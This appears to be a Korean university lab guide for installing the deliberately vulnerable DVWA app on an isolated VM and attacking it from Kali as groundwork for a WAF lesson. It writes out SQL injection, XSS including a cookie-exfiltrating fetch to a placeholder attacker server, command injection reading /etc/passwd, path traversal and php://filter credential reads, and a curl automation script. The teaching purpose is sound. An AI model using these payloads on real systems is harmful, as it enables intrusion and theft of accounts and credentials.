




## 실습 환경

| 구분 | 운영체제 | IP 주소 | 역할 |
|------|----------|---------|------|
| 공격자 PC | Kali Linux | 192.168.0.10 | 브라우저·curl로 웹 공격 시도 |
| 서버 | Ubuntu | 192.168.0.30 | DVWA(취약 웹 앱) 호스팅 |

7주차까지 우리는 **포트 단위 방화벽** 으로 외부에서 안 봐도 될 포트를 막아 왔습니다. 그런데 80번(HTTP)은 웹 서비스를 위해 열어 둬야 합니다. **그럼 80번 안으로 들어오는 공격은 누가 막을까요?**

8주차는 그 질문에 대한 답을 찾는 주차입니다. 8-1에서는 **공격이 실제로 통하는 모습** 을 직접 보고, 8-2에서 **WAF로 막는 법** 을 배웁니다.

---

## 왜 DVWA·웹 공격 실습이 필요한가?

### 1. 데이터 유출 사고의 절반 이상은 웹에서 시작된다

업계 보고서들이 한결같이 가리키는 사실: 데이터 유출 사고의 가장 큰 비중이 **웹 애플리케이션 취약점**에서 발생합니다.

| 공격 종류 | 한 줄 설명 | 실제 사고 예 |
|-----------|-----------|--------------|
| **SQL Injection** | 입력란에 SQL 코드를 끼워 DB에서 데이터 탈취 | 통신사·게임사 회원정보 유출 다수 |
| **XSS (Cross-Site Scripting)** | 웹 페이지에 악성 스크립트 심어 사용자 쿠키·세션 탈취 | SNS·게시판 계정 탈취 사고 |
| **Command Injection** | 웹 입력란을 통해 서버 OS 명령 실행 | 서버 자체 장악 → 랜섬웨어 |
| **File Upload** | 악성 파일 업로드해 웹쉘 심기 | 웹사이트 변조·암호화폐 채굴 악용 |

이런 공격들의 공통점은 **80/443 같은 "정상 포트"** 를 통해 들어온다는 것입니다. 7주차에서 만든 방화벽은 80번을 ALLOW로 열어 두었기 때문에, 그 안에 어떤 페이로드가 실려 있든 통과시킵니다.

### 2. 7주차 방화벽으로는 막을 수 없는 영역



방화벽은 패킷의 **포트와 IP** 만 봅니다. HTTP 요청 본문에 `' OR '1'='1` 같은 공격 코드가 들어 있어도 그건 모릅니다. 마치 빌딩 출입구 보안요원이 출입증만 확인하고, 가방 안에 무엇을 들고 가는지는 안 보는 것과 같습니다.

### 3. 그래서 우리는 이렇게 학습한다

| 단계 | 주차 | 도구 | 막는 영역 |
|------|------|------|----------|
| 1단계 | 7주차 | iptables / UFW | "허용해선 안 될 포트" 차단 |
| 2단계 | **8주차 (이번)** | **DVWA · WAF (ModSecurity)** | "허용된 포트 안의 악성 페이로드" 차단 |

> **오늘의 학습 목표:**
> 1. 일부러 취약하게 만든 웹 앱 **DVWA** 를 Ubuntu에 설치한다.
> 2. Kali에서 SQL Injection·XSS·Command Injection을 직접 성공시켜 본다.
> 3. **"왜 방화벽으로는 못 막았는가"** 를 손으로 느낀다 — 이게 8-2에서 WAF가 필요한 이유의 출발점.
{: .prompt-info }

---

## ⚠️ 매우 중요한 안전 수칙

DVWA는 **일부러 취약하게 만든 웹 앱**입니다. 인터넷에 노출되면 그 자체로 누구나 공격 가능한 상태가 됩니다.

| 절대 하지 말 것 | 이유 |
|----------------|------|
| ❌ DVWA를 인터넷에 공개된 서버에 설치 | 자신이 봇넷의 발판이 될 수 있음 |
| ❌ 클라우드 인스턴스에 외부 IP 그대로 노출 | 같은 이유 |
| ❌ 학습용 외 다른 데이터와 같은 서버 사용 | 다른 서비스까지 피해 |

| 반드시 할 것 | 방법 |
|--------------|------|
| ✅ 가상머신·내부 네트워크에서만 사용 | VirtualBox/VMware 호스트 전용 네트워크 |
| ✅ 실습 끝나면 끄거나 삭제 | `sudo systemctl stop apache2` 또는 VM 스냅샷 복원 |
| ✅ Kali ↔ Ubuntu 둘 다 같은 사설망 | 192.168.0.0/24 같은 내부 대역 |

---

## Part 0. 시작 전 확인 — 7-2 상태 점검

7-2에서 만든 UFW 정책이 살아 있어야 8주차 실습이 의미가 있습니다.

```bash
# Ubuntu에서 실행
sudo ufw status verbose
# 다음과 비슷한 상태이어야 정상:
#   Status: active
#   Default: deny (incoming), allow (outgoing)
#   22/tcp ALLOW, 80/tcp ALLOW
```

만약 UFW가 비활성이거나 80이 막혀 있으면 7-2 §5 단계를 따라 정상 상태로 만들고 옵니다.

Apache2와 MariaDB는 아직 설치되지 않았어도 괜찮습니다. Part 2에서 처음부터 설치합니다. 이미 설치해 둔 학생은 여기서 서비스 상태만 먼저 확인합니다.

```bash
# 이미 설치돼 있다면 서비스 동작 확인
systemctl is-active apache2 mariadb
# 두 줄 모두 active 가 나오면 바로 Part 2.3으로 가도 됨
# "Unit ... could not be found" 가 나오면 아직 설치 전이라는 뜻
```

```bash
# Apache가 이미 설치돼 있고 active 인 경우에만 Kali에서 현재 상태 확인
curl -I http://192.168.0.30/
# HTTP/1.1 200 OK 가 나와야 정상
# (80번이 UFW에서 허용된 채로 Apache 기본 페이지 반환)
```

---

## Part 1. DVWA·WAF는 뭔가?

### 1.1 DVWA — Damn Vulnerable Web Application

> DVWA는 **"일부러 취약하게 만든 PHP 웹 앱"** 입니다. 보안 학습용입니다.

DVWA의 특징:
- SQL Injection, XSS, CSRF, Command Injection, File Upload 등 OWASP Top 10 거의 전 영역을 의도적으로 포함
- 보안 레벨 4단계 (Low / Medium / High / Impossible)
- Low는 거의 방어 없음 — 공격이 "교과서대로" 통함
- 무료, 오픈소스

### 1.2 WAF — Web Application Firewall

> WAF는 **"웹 요청 본문까지 검사해서 악성 패턴을 차단"** 해주는 도구입니다. 8-2에서 다룰 ModSecurity가 대표적인 오픈소스 WAF입니다.



| 도구 | 검사하는 곳 | 막는 공격 |
|------|------------|----------|
| 방화벽 (UFW/iptables) | 패킷의 IP·포트 | 닫혀야 할 포트 접근 |
| **WAF (ModSecurity)** | HTTP 요청 본문·URL·헤더 | 웹 애플리케이션 공격 (SQLi, XSS 등) |

오늘은 WAF가 **꺼져 있는 상태** 에서 공격이 통하는 모습을 봅니다. 8-2에서 WAF를 켜면 같은 공격이 막히는 걸 비교 체험할 겁니다.

---

## Part 2. DVWA 설치하기

### 2.1 Apache2·MariaDB·PHP 필요 패키지 설치

DVWA는 PHP로 만들어졌고 데이터베이스로 MySQL/MariaDB 계열을 씁니다. **최신 DVWA는 MariaDB 기준으로 맞추는 것이 가장 안전합니다.** `mysql-server`를 쓰면 DB 초기화 중 `ADD IF NOT EXISTS` 문법 오류가 날 수 있습니다.

```bash
# Ubuntu에서 실행
sudo apt update

sudo apt install -y \
  apache2 mariadb-server mariadb-client \
  php libapache2-mod-php \
  php-mysql php-gd php-mbstring php-xml php-curl \
  git unzip
# apache2               : 웹 서버
# mariadb-server        : DVWA 데이터베이스 서버
# mariadb-client        : mariadb/mysql 명령어 클라이언트
# php                   : PHP 인터프리터 본체
# libapache2-mod-php    : Apache가 PHP 파일을 실행할 수 있게 해주는 모듈
# php-mysql             : PHP에서 MySQL/MariaDB 접속용 모듈
# php-gd                : 이미지 처리 (DVWA Captcha 등)
# php-mbstring, php-xml : DVWA가 요구하는 추가 모듈
# php-curl              : DVWA의 일부 모듈(API)에서 사용
# git, unzip            : DVWA 소스 받기/풀기 도구
```

```bash
# Apache2와 MariaDB 서비스 시작 + 부팅 시 자동 시작
sudo systemctl enable --now apache2
sudo systemctl enable --now mariadb

# 설치/서비스 확인
apache2 -v
mariadb --version
systemctl is-active apache2 mariadb
# apache2, mariadb 두 줄 모두 active 가 나오면 정상

php -v
# PHP 8.1.x 같은 버전 정보가 보이면 정상
```

```bash
# Ubuntu 자기 자신에서 Apache 기본 페이지 확인
curl -I http://localhost/
# HTTP/1.1 200 OK 가 나오면 Apache2 동작 정상
```

```bash
# 선택 사항: MariaDB 기본 보안 정리
sudo mariadb-secure-installation
# 실습 VM에서는 꼭 필요하진 않지만, 익명 사용자 제거·test DB 제거 같은 정리를 할 수 있음
# 이 과정에서 root 비밀번호/인증 방식을 바꿨다면 이후 mariadb 접속 때 -p 옵션이 필요할 수 있음
```

### 2.2 Apache mod_rewrite + PHP 모듈 활성화

DVWA의 일부 기능은 URL 재작성을 사용합니다. PHP가 Apache에서 동작하려면 PHP 모듈도 활성화돼 있어야 합니다.

```bash
# Ubuntu에서 실행
sudo a2enmod rewrite
# a2enmod : Apache module 활성화 명령

# PHP 모듈이 로드돼 있는지 확인
sudo apachectl -M 2>/dev/null | grep php
# php_module 또는 php8_module 같은 줄이 보이면 정상

# 보이지 않으면 명시적으로 활성화 (PHP 버전 자동 감지)
PHP_VER=$(php -r 'echo PHP_MAJOR_VERSION.".".PHP_MINOR_VERSION;')
sudo a2enmod "php${PHP_VER}"
# 출력 예: Module php8.1 already enabled  또는  Enabling module php8.1.

sudo systemctl restart apache2
# 변경사항 적용 위해 Apache 재시작
```

```bash
# PHP 동작 빠른 검증
echo '<?php phpinfo(); ?>' | sudo tee /var/www/html/info.php
curl -s http://localhost/info.php | head -5
# <!DOCTYPE html ... 같은 HTML이 나오면 PHP 동작 정상
# 만약 <?php ... ?> 가 그대로 보이면 PHP 모듈이 로드되지 않은 상태

# 검증 후 정보 노출 방지를 위해 즉시 삭제
sudo rm /var/www/html/info.php
```

### 2.3 DVWA 소스 코드 받기

```bash
# Ubuntu에서 실행
cd /var/www/html
# /var/www/html : Apache의 기본 웹 루트 (외부에서 보이는 폴더)

sudo git clone https://github.com/digininja/DVWA.git dvwa
# git clone : GitHub에서 코드 받기
# dvwa      : 받을 폴더 이름

# 권한 조정 — Apache(www-data)가 읽고 쓸 수 있게
sudo chown -R www-data:www-data /var/www/html/dvwa
# chown -R   : 폴더 안 모든 파일에 대해 소유자 변경
# www-data   : Apache 실행 사용자
```

### 2.4 PHP 설정 (DVWA 권장값)

PHP 버전(8.1, 8.2, 8.3)에 따라 설정 파일 경로가 다릅니다. 동적으로 찾아서 편집합니다.

```bash
# Ubuntu에서 실행 — PHP 설정 파일 위치 자동 추출
PHP_INI=$(php -r 'echo php_ini_loaded_file();')
echo "$PHP_INI"
# 출력 예: /etc/php/8.1/cli/php.ini
# (cli 가 아니라 apache2 용 ini를 써야 하므로 cli → apache2 로 치환)

PHP_INI_APACHE=$(echo "$PHP_INI" | sed 's|/cli/|/apache2/|')
echo "$PHP_INI_APACHE"
# 출력 예: /etc/php/8.1/apache2/php.ini  ← 이게 우리가 편집할 파일
```

```bash
# 위 변수를 그대로 사용해 편집
sudo nano "$PHP_INI_APACHE"
# Ctrl+W 로 검색하면서 다음 항목을 찾아 값을 변경:
#   allow_url_include = On      ← 기본 Off, On 으로
#   allow_url_fopen   = On      ← 기본 On (확인만)
#   display_errors = On         ← 오류 원인 확인용, 실습 환경에서만
#   display_startup_errors = On ← 오류 원인 확인용, 실습 환경에서만
# Ctrl+O 저장(Enter), Ctrl+X 종료
```

> nano에서 `Ctrl+W` 로 `allow_url_include` 검색 → 줄을 찾아 `Off → On` 으로 직접 수정 → `Ctrl+O` 후 Enter로 저장 → `Ctrl+X` 로 종료. 변수가 풀려서 직접 경로가 들어가지 않으면 `echo "$PHP_INI_APACHE"` 결과를 복사해서 `sudo nano <붙여넣기>` 하세요.
{: .prompt-tip }

> **왜 `allow_url_include = On`?** DVWA의 File Inclusion 실습 모듈에 필요합니다. **운영 서버에서는 절대로 켜지 마세요** — 원격 코드 실행의 통로가 됩니다. 어디까지나 학습용 환경이라서 켜는 것입니다.
{: .prompt-warning }

```bash
# 설정 적용을 위해 Apache 재시작
sudo systemctl restart apache2
```

### 2.5 MariaDB에 DVWA 전용 사용자·DB 만들기

```bash
# Ubuntu에서 실행 — MariaDB 관리자로 접속
sudo mariadb
# Ubuntu 기본 설치 직후는 unix_socket 인증이라 비밀번호 없이 들어가집니다.
# 만약 "Access denied" 가 뜨면, 누군가 mariadb-secure-installation 으로
# root에 비밀번호를 걸어 둔 것 — 그 비밀번호로 다음과 같이 접속:
#   mariadb -u root -p
```

MariaDB 프롬프트(`MariaDB [(none)]>`)가 뜨면 다음을 차례로 입력:

```sql
-- 1. 빈 데이터베이스 만들기
CREATE DATABASE IF NOT EXISTS dvwa;

-- 2. DVWA가 쓸 사용자 만들기 (비밀번호: p@ssw0rd)
CREATE USER IF NOT EXISTS 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';

-- 3. 이미 사용자가 있던 경우에도 비밀번호를 실습값으로 맞추기
ALTER USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';

-- 4. 그 사용자에게 dvwa DB 권한 부여
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';

-- 5. 권한 변경 적용
FLUSH PRIVILEGES;

-- 6. 종료
EXIT;
```

> **DVWA 권장 비밀번호 `p@ssw0rd` 그대로 사용합니다.** 이 비밀번호는 DVWA의 기본 설정 파일과 일치합니다. 학습 환경에서만 쓰는 더미 비밀번호이므로 운영에서 절대 흉내내지 마세요.
{: .prompt-warning }

```bash
# DB 계정이 실제로 접속되는지 확인
mariadb -u dvwa -pp@ssw0rd -D dvwa -e "SELECT DATABASE();"
# DATABASE() 아래에 dvwa 가 나오면 정상
# 주의: -p와 비밀번호 사이에는 공백을 넣지 않음
```

> **이미 `mysql-server`로 설치했고 setup.php에서 `ADD IF NOT EXISTS` SQL 문법 오류가 난다면?** 최신 DVWA와 MySQL 문법 호환 문제입니다. 실습 VM이라면 MySQL을 제거하고 MariaDB로 바꾸는 것이 가장 깔끔합니다.
>
> ```bash
> sudo systemctl stop mysql
> sudo apt remove --purge -y mysql-server mysql-client
> sudo apt autoremove -y
> sudo apt install -y mariadb-server mariadb-client
> sudo systemctl enable --now mariadb
> ```
>
> 그다음 위의 **2.5 MariaDB에 DVWA 전용 사용자·DB 만들기**를 다시 진행하고, setup.php에서 **Create / Reset Database** 를 다시 누릅니다.
{: .prompt-tip }

### 2.6 DVWA 설정 파일 만들기

DVWA는 `config/config.inc.php` 라는 파일을 보고 DB 정보를 알아냅니다. 기본 템플릿이 `.dist` 확장자로 같이 들어 있으니 복사해서 씁니다.

```bash
# Ubuntu에서 실행
cd /var/www/html/dvwa/config

sudo cp config.inc.php.dist config.inc.php
# .dist (배포 템플릿) → 실제 사용 파일로 복사

sudo nano config.inc.php
# 다음 줄들이 우리 MariaDB 사용자와 일치하는지 확인:
#   $_DVWA[ 'db_server'   ] = '127.0.0.1';
#   $_DVWA[ 'db_port'     ] = '3306';
#   $_DVWA[ 'db_database' ] = 'dvwa';
#   $_DVWA[ 'db_user'     ] = 'dvwa';
#   $_DVWA[ 'db_password' ] = 'p@ssw0rd';
# 기본값이 이 그대로일 가능성이 높음 → 그대로 두면 됨
# Ctrl+O 저장, Ctrl+X 종료
```

### 2.7 DVWA 초기 설정 페이지 실행

이제 브라우저에서 DVWA 셋업 페이지에 접속합니다.

```bash
# Kali에서 브라우저(Firefox) 실행 후 다음 주소 접속
http://192.168.0.30/dvwa/setup.php
```

페이지 하단에 시스템 점검 체크리스트가 보입니다. 빨간색이 없는지 확인:

| 체크 항목 | 정상 표시 |
|-----------|----------|
| PHP function `allow_url_include` | enabled |
| PHP module `gd` | installed |
| PHP module `mysql` | installed |
| Writable folder `hackable/uploads/` | Yes |
| 구버전에서 보이는 PHPIDS 임시 파일 권한 | 있으면 Yes |

빨간 항목이 있으면 메시지에 따라 권한 조정:

```bash
# 예: 업로드 폴더 권한이 부족할 때
sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads
sudo chmod 775 /var/www/html/dvwa/hackable/uploads

# DVWA 버전에 따라 PHPIDS 임시 폴더가 있을 때만 권한 조정
if [ -d /var/www/html/dvwa/external/phpids/0.6/lib/IDS/tmp ]; then
  sudo chown -R www-data:www-data /var/www/html/dvwa/external/phpids/0.6/lib/IDS/tmp
  sudo chmod -R 775 /var/www/html/dvwa/external/phpids/0.6/lib/IDS/tmp
fi
```

페이지 맨 아래 **"Create / Reset Database"** 버튼 클릭 → 잠시 기다리면 자동으로 로그인 페이지로 이동합니다.

정상 생성 여부를 터미널에서도 한 번 확인합니다.

```bash
# DVWA가 만든 users 테이블이 보이면 DB 초기화 성공
mariadb -u dvwa -pp@ssw0rd -D dvwa -e "SHOW TABLES;"

# 기본 관리자 계정이 들어갔는지 확인
mariadb -u dvwa -pp@ssw0rd -D dvwa -e "SELECT user FROM users;"
# admin, gordonb, 1337, pablo, smithy 같은 계정이 보이면 정상
```

### 2.8 DVWA 로그인 + 보안 레벨 설정

| 항목 | 값 |
|------|---|
| 로그인 페이지 | `http://192.168.0.30/dvwa/login.php` |
| 기본 ID | `admin` |
| 기본 비밀번호 | `password` |

로그인 후, 좌측 메뉴 **DVWA Security** → 드롭다운을 **Low** 로 선택하고 **Submit**.

터미널에서 HTTP 접속도 확인할 수 있습니다.

```bash
# Ubuntu 서버 자기 자신에서 로그인 페이지 응답 확인
curl -I http://localhost/dvwa/login.php
# HTTP/1.1 200 OK 가 나오면 Apache + PHP + DVWA 연결 정상

# Kali에서는 서버 IP로 확인
curl -I http://192.168.0.30/dvwa/login.php
# HTTP/1.1 200 OK 가 나오면 Kali에서 DVWA까지 네트워크 접근 정상
```

> **왜 Low로 시작하는가?**
> Low는 거의 방어 없이 공격이 그대로 통과합니다. "공격이 통한다 = 코드에 취약점이 있다" 를 가장 명확히 보여주기 위해서입니다. Medium·High는 일부 방어가 들어가 있어 약간의 우회 기법이 필요합니다. Impossible은 잘 작성된 보안 코드의 예시 — 학습용으로 비교해 볼 가치가 있습니다.
{: .prompt-info }

---

## Part 3. 공격 전 사진 — DVWA가 정상 동작하는지 확인

본격 공격 전에 **정상 사용 시나리오** 를 한 번 봐 둡니다. "공격으로 어떻게 망가지는가" 를 비교하기 위함입니다.

### 3.1 SQL Injection 페이지 정상 사용

```
좌측 메뉴 → SQL Injection
"User ID:" 입력란에 → 1 입력 → Submit
```

예상 정상 출력:

```
ID: 1
First name: admin
Surname: admin
```

이건 의도된 동작입니다. SQL 쿼리는 대략 이런 모양:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

DB에 `user_id = 1` 인 한 명의 정보를 가져오는 평범한 조회입니다.

### 3.2 XSS 페이지 정상 사용

```
좌측 메뉴 → XSS (Reflected)
"What's your name?" 입력란에 → 홍길동 입력 → Submit
```

예상 정상 출력:

```
Hello 홍길동
```

입력한 이름이 페이지에 그대로 나타납니다. 이게 정상 동작입니다 — 그런데 **이게 그대로 출력되는 게 곧 취약점** 이라는 게 곧 드러납니다.

---

## Part 4. 공격자 시점 — Kali에서 첫 공격 성공시키기

이제 같은 페이지에 **공격 코드를 넣어** 봅니다. WAF 없이 순수 DVWA 상태이므로 거의 다 통합니다.

### 4.1 공격 ① SQL Injection — DB 모든 사용자 정보 빼내기

**페이지:** SQL Injection (Low)
**입력란:** User ID

평범한 입력 대신, 다음 문자열을 입력합니다:

```
1' OR '1'='1
```

> **이 한 줄이 무슨 짓을 하는가?**
> DVWA의 PHP 코드는 입력값을 그대로 쿼리에 끼워 넣습니다:
> ```sql
> SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
> ```
> 작은따옴표가 일찍 닫히고, `OR '1'='1'` 이 모든 행에 참이 되어, **DB의 모든 사용자 정보** 가 출력됩니다.
{: .prompt-info }

예상 출력:

```
ID: 1' OR '1'='1
First name: admin       Surname: admin
First name: Gordon      Surname: Brown
First name: Hack        Surname: Me
First name: Pablo       Surname: Picasso
First name: Bob         Surname: Smith
```

**🎯 이 공격이 노리는 것**

| 단계 | 의미 |
|------|------|
| 입력값 끼워넣기 | 사용자가 입력한 값을 SQL 문법의 일부로 해석시키기 |
| 따옴표 일찍 닫기 | 원래 의도된 쿼리 구조를 깨뜨리기 |
| `OR '1'='1'` | 항상 참이 되는 조건 추가 |
| 결과 | **모든** 사용자 데이터 노출 |

### 4.2 공격 ② SQL Injection — 더 깊이, 다른 테이블 들여다보기

UNION SELECT 기법을 써서 다른 테이블까지 들여다보는 시도:

```
1' UNION SELECT user, password FROM users -- 
```

(끝에 공백 + `--` 로 뒷부분 주석 처리)

예상 출력:

```
ID: 1' UNION SELECT user, password FROM users -- 
First name: admin                                Surname: admin
First name: admin   Surname: 5f4dcc3b5aa765d61d8327deb882cf99
First name: gordonb Surname: e99a18c428cb38d5f260853678922e03
...
```

**Surname 자리에 비밀번호 해시가 그대로 노출됩니다.** 이 해시는 MD5로, 온라인 레인보우 테이블에서 5초면 평문으로 풀립니다(`5f4d...cf99` = `password`).

> **"단지 한 줄짜리 입력으로 모든 사용자 비밀번호 해시가 유출됐다."** 실제 데이터 유출 사고의 상당수가 이런 패턴입니다.
{: .prompt-warning }

### 4.3 공격 ③ XSS — 스크립트가 페이지에 박히기

**페이지:** XSS (Reflected)
**입력란:** What's your name?

평범한 이름 대신:

```html
<script>alert('XSS!')</script>
```

브라우저에 **alert 창** 이 그대로 뜹니다. 페이지에 우리가 보낸 자바스크립트가 그대로 실행된 것입니다.

**🎯 이 공격이 위험한 이유**

`alert(1)` 은 시연용입니다. 같은 자리에 다음과 같은 코드를 넣으면 실제 공격이 됩니다:

```html
<script>fetch('http://공격자서버/?c=' + document.cookie)</script>
```

다른 사용자가 이 페이지를 보면 **그 사람의 세션 쿠키가 공격자에게 전송**됩니다 → 공격자가 그 쿠키로 로그인 → 계정 탈취. 이게 XSS의 진짜 위험성입니다.

### 4.4 공격 ④ Command Injection — 서버 자체 장악으로 가는 길

**페이지:** Command Injection (Low)
**입력란:** Enter an IP address

원래 의도는 ping 테스트입니다. 평범한 IP를 넣으면 ping 결과가 나옵니다.

평범한 입력 대신:

```
127.0.0.1; whoami
```

세미콜론(`;`)은 셸에서 명령을 이어 붙이는 구분자입니다. 서버가 실행하는 명령이 다음처럼 됩니다:

```bash
ping -c 4 127.0.0.1; whoami
```

ping 결과 + **`whoami` 결과** 가 함께 나옵니다:

```
PING 127.0.0.1 (127.0.0.1) ...
4 packets transmitted, 4 received...

www-data
```

`www-data` 는 Apache 프로세스의 사용자입니다. 즉 **공격자가 이 사용자의 권한으로 서버 명령을 실행** 하고 있다는 뜻입니다.

더 위험한 명령으로 확장 가능:

```
127.0.0.1; cat /etc/passwd
127.0.0.1; ls /var/www/html
127.0.0.1; uname -a
```

> **여기서 한 발만 더 나가면**: 서버에서 실행되는 셸을 공격자에게 연결하는 "리버스 셸" 도 같은 방식으로 가능합니다. 그 시점부터 서버가 사실상 공격자에게 넘어간 것과 같습니다. **단순한 입력 한 줄이 서버 장악의 시작이 될 수 있다는 게 핵심**입니다.
{: .prompt-danger }

### 4.5 공격 ⑤ Directory Traversal — 서버 내부 파일 빼내기

**페이지:** File Inclusion (Low)

DVWA의 File Inclusion 모듈은 URL 파라미터 `page=` 로 어떤 파일을 보여줄지 결정합니다. 정상 사용:

```
http://192.168.0.30/dvwa/vulnerabilities/fi/?page=file1.php
```

이 코드는 대략 다음과 같이 짜여 있습니다:

```php
include( $_GET[ 'page' ] );
```

사용자 입력을 그대로 `include()` 에 넣고 있습니다. 여기에 **상대 경로의 상위 디렉토리(`../`)** 를 끼워 넣으면 웹 디렉토리 바깥의 파일까지 읽을 수 있습니다.

**시도 1 — 절대 경로 (가장 확실, PHP `include()`는 절대 경로도 허용):**

```
http://192.168.0.30/dvwa/vulnerabilities/fi/?page=/etc/passwd
```

**시도 2 — 상대 경로 (고전적 Directory Traversal 형태):**

```
http://192.168.0.30/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

> **`../` 가 몇 개 필요한가?**
> 현재 스크립트 위치는 `/var/www/html/dvwa/vulnerabilities/fi/` 입니다. 시스템 루트 `/` 까지 올라가려면 **6단계 상승**이 필요합니다 (`fi → vulnerabilities → dvwa → html → www → var → /`). 그래서 `../` 가 6개. 더 많아도 상관없습니다 — 이미 루트에 도달한 후 `..` 는 무시되니까요. 그래서 보안 학습 자료들에서 흔히 `../` 를 넉넉히 쓰는 게 그 이유입니다.
> 절대 경로 `/etc/passwd` 는 PHP `include()` 가 그대로 받아주기 때문에 가장 단순한 형태입니다.
{: .prompt-info }

예상 출력 (페이지에 그대로 표시됨):

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

**🎯 이 공격이 노리는 파일들**

| 노리는 파일 | 가치 |
|------------|------|
| `/etc/passwd` | 시스템 사용자 목록 |
| `/etc/shadow` | 비밀번호 해시 (보통 root 권한 필요해 못 읽힘) |
| `/var/www/html/dvwa/config/config.inc.php` | **DB 비밀번호 평문!** |
| `/home/ubuntu/.ssh/id_rsa` | SSH 개인키 |
| `/proc/self/environ` | 프로세스 환경변수 (가끔 비밀 포함) |

**더 위험한 시도 — DB 설정 파일 읽기:**

```
http://192.168.0.30/dvwa/vulnerabilities/fi/?page=/var/www/html/dvwa/config/config.inc.php
```

PHP `include()` 는 .php 파일을 만나면 **PHP로 실행**해 버려서 화면에 빈 결과가 나올 수 있습니다. 그래서 진짜 공격에서는 PHP 필터(`php://filter/convert.base64-encode/...`)를 써서 소스 자체를 인코딩된 형태로 받아냅니다. 결과를 디코딩하면 우리가 `dvwa / p@ssw0rd` 로 설정한 DB 자격증명이 그대로 노출됩니다.

```
http://192.168.0.30/dvwa/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/var/www/html/dvwa/config/config.inc.php
```

→ 페이지에 Base64 문자열이 출력 → `echo "받은문자열" | base64 -d` 로 디코딩하면 PHP 소스가 그대로 보입니다.

> **인사이트:** 디렉토리 트래버설은 "공격자가 입력한 문자열이 파일 경로로 쓰이는" 모든 곳에서 발생합니다. URL 파라미터, 파일 다운로드 페이지, 이미지 미리보기 — 어디든 같은 패턴입니다. 막는 핵심은 **"사용자 입력을 절대 그대로 경로로 쓰지 말 것, 화이트리스트로 검증할 것"** 입니다.
{: .prompt-warning }

### 4.6 curl로 같은 공격 자동화해 보기

브라우저로 공격을 보면서 "사람이 손으로 한 거" 처럼 느껴질 수 있는데, 실제 공격은 거의 다 자동화돼 있습니다. 같은 공격을 명령어로 시도합니다.

```bash
# Kali에서 실행
# 1) 먼저 로그인 페이지를 받아서 세션 쿠키와 CSRF 토큰 동시에 추출
curl -c /tmp/cookie.txt -s "http://192.168.0.30/dvwa/login.php" -o /tmp/login.html

# 2) 로그인 CSRF 토큰 추출
TOKEN=$(grep -oP "name=['\"]user_token['\"][^>]*value=['\"]\K[^'\"]+" /tmp/login.html | head -1)
echo "TOKEN: $TOKEN"
# 빈 값이 나오면 패턴이 안 맞은 것 — 다음으로 fallback:
#   TOKEN=$(grep -oP "user_token['\"][^>]*value=['\"]\K[^'\"]+" /tmp/login.html | head -1)

# 3) 로그인 (받은 토큰을 함께 전송)
curl -b /tmp/cookie.txt -c /tmp/cookie.txt \
     --data-urlencode "username=admin" \
     --data-urlencode "password=password" \
     --data-urlencode "user_token=$TOKEN" \
     --data-urlencode "Login=Login" \
     -s "http://192.168.0.30/dvwa/login.php" -o /dev/null
# --data-urlencode : 폼 값을 안전하게 URL 인코딩해서 전송

# 4) 보안 레벨을 Low로 변경
# security.php도 CSRF 토큰이 필요하므로 먼저 페이지를 받아 토큰 추출
curl -b /tmp/cookie.txt -c /tmp/cookie.txt -s \
     "http://192.168.0.30/dvwa/security.php" -o /tmp/security.html

SEC_TOKEN=$(grep -oP "name=['\"]user_token['\"][^>]*value=['\"]\K[^'\"]+" /tmp/security.html | head -1)
echo "SEC_TOKEN: $SEC_TOKEN"

curl -b /tmp/cookie.txt -c /tmp/cookie.txt \
     --data-urlencode "security=low" \
     --data-urlencode "seclev_submit=Submit" \
     --data-urlencode "user_token=$SEC_TOKEN" \
     -s "http://192.168.0.30/dvwa/security.php" \
     -o /dev/null

# 5) SQL Injection 자동 실행
curl -b /tmp/cookie.txt -s \
     "http://192.168.0.30/dvwa/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" \
     | grep -E "First name|Surname"
# %27 : URL 인코딩된 작은따옴표
